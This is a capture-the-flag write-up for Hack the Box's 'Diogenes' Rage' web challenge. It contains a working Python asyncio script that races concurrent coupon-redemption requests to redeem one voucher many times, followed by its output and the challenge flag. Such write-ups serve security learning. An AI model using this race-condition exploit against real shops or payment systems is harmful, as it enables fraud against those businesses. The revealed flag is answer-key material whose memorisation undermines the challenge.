

# Writeup "Diogenes' Rage"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/diogenes-rage              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-diogenes-rage-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-28                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> __                                                   </td></tr>
</table>

## Description

> Having missed the flight as you walk down the street, a wild vending machine appears in your way. You check your pocket and there it is, yet another half torn voucher coupon to feed to the consumerism. You start wondering why should you buy things that you don't like with the money you don't have for the people you don't like. You're Jack's raging bile duct.

## Solution

The application to be analyzed contains a _JavaScript_ frontend and a _node.js_ backend. Furthermore, a _SQLite_ database is used. The frontend displays a vending machine containing nine different products. Additionally, the user has one coupon with the code `HTB_100` which is worth 1 credit. All products cost less than 1 credit except the product at position `C8`, which costs 13.37 credits. In the source code we can see that the frontend will output the flag if the user buys product `C8`. We therefore have to find a way to get a sufficient number of credits.

<p align="center">
   
</p>

It seems like there are no injection vulnerabilities and we cannot discover any other way to get around the system. So we read through the official discussion page. The comments there hint at exploiting a racing condition. By sending many requests at once, we are able to redeem the same voucher several times before it is deactivated in the database. This is possible because the JS function in `index.js` which handles the request has the `async` keyword.

A web search yielded a writeup of this challenge[^1] and a page explaining racing contitions in node.js[^2]. Based on these resources, we can start to create or own solution. The key is to send as many voucher redemption requests as quickly as possible. This can be done in several different ways and after a web search we decide on using the library `asyncio`[^3][^4] (also, the writeups mentioned above use the library `multiprocessing` and we want to develop our own solution).

After a lot of trial and error, we managed to develop the following solution:

``` python
import httpx
import asyncio
import functools

challenge_url = "http://206.189.117.48:30502"
coupon_endpoint = "/api/coupons/apply"
purchase_endpoint = "/api/purchase"
purchase_data = {"item": "C8"}
coupon_data = {"coupon_code": "HTB_100"}

async def buyProduct(cookies=None):
   async with httpx.AsyncClient(base_url=challenge_url, cookies=cookies) as client:
      response = await client.post(url=purchase_endpoint, data=purchase_data)
      print("getnew: ", response.text)
      return response.cookies

async def redeemCoupon(cookies):
   async with httpx.AsyncClient(base_url=challenge_url, cookies=cookies) as client:
      response = await client.post(url=coupon_endpoint, data=coupon_data)
      if response.status_code == 200:
         return 1
      else:
         return 0

async def redeemManyCoupons(cookies):
   tasks = []
   for i in range(20):
      tasks.append(asyncio.create_task(redeemCoupon(cookies)))

   results = await asyncio.gather(*tasks)
   return functools.reduce(lambda a, b: a+b, results)

def main():
   for i in range(100):
      cookies = asyncio.run(buyProduct())
      result = asyncio.run(redeemManyCoupons(cookies))
      if result >= 14:
         asyncio.run(buyProduct(cookies))
         exit()

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"flag":"HTB{r4c3_w3b_d3f34t_c0nsum3r1sm}","message":"Thank you for your order! $6.63 coupon credits left!"}
```

Therefore, the flag is:

```
HTB{r4c3_w3b_d3f34t_c0nsum3r1sm}
```

### Sources

[^1]: https://infosecwriteups.com/this-is-why-you-should-always-check-for-race-conditions-even-in-javascript-410b6021ad1a
[^2]: https://stackoverflow.com/questions/21438207/can-node-js-code-result-in-race-conditions
[^3]: https://realpython.com/async-io-python
[^4]: https://stackoverflow.com/questions/27435284/multiprocessing-vs-multithreading-vs-asyncio-in-python-3
